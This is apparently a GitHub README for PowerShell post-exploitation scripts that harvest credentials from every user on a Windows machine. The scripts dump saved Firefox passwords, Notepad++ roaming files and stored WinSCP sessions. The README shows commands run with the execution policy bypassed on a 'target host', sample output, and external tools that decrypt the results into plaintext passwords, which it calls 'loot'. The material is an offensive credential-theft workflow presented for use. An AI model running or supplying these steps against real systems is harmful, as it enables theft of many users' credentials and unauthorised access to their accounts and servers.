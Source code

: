 A set of scripts to help gathering credentials from Windows devices, especially usefull if there are hundreds of users on the machine.

The scripts should be run as a **high privileged user** to gather as much information as possible.

---

# firefox_dump.ps1
This script will loop through all users under `C:\Users` and dump all saved credentials from Mozilla Firefox profiles. 
## Example Usage
```powershell
PS C:\tmp> powershell.exe -ExecutionPolicy Bypass .\firefox_dump.ps1
[-] 'Public' doesn't have any saved passwords in Mozilla Firefox
[+] Extracting secrets from 'user' to: C:\Users\void\AppData\Local\Temp\user\skvrf23a.default
[+] Extracting secrets from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\grg21h5s.default
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
[+] Extracting secrets from 'void' to: C:\Users\void\AppData\Local\Temp\void\ljftf853.default-release
```

If you don't want to upload files to the target host simply copy-paste the try-catch code from the script and run it as is in PowerShell.
Decrypt the information with  [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.
```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
---

# notepad_dump.ps1
This script will loop through all users under `C:\Users` and dump all roaming text files from Notepad++. 
## Example Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\notepad_dump.ps1
[-] 'Public' doesn't have any roaming Notepad++ data.
[+] Extracting Notepad++ data from 'user' to: C:\Users\void\AppData\Local\Temp\user\notepad++
[+] Extracting Notepad++ data from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\notepad++
[-] 'user3' doesn't have any roaming Notepad++ data.
[+] Extracting Notepad++ data from 'void' to: C:\Users\void\AppData\Local\Temp\void\notepad++
```

---

# winscp_dump.ps1
This script will loop through all users in the registry (HKLM) and dump all saved winscp sessions.
## Exampe Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\winscp_dump.ps1
[+] User: void - Session: root@127.0.0.1
  HostName: 127.0.0.1
  UserName: root
  EncPassword: A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF

[+] Saved all output to logfile: C:\Users\void\AppData\Local\Temp\winscp_dump.log
```

Decrypt the encrypted password with [`WinSCPDec.py`](https://gist.github.com/tijldeneut/69717c56de3e16e97516a1964fa49bfd) or similar.
```bash
apt-kali :: ~ » python3 WinSCPDec.py --host=127.0.0.1 --user=root --pass=A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF
[+] Succes!
     ThisIsMySecretPasswd!"#1!"#
```
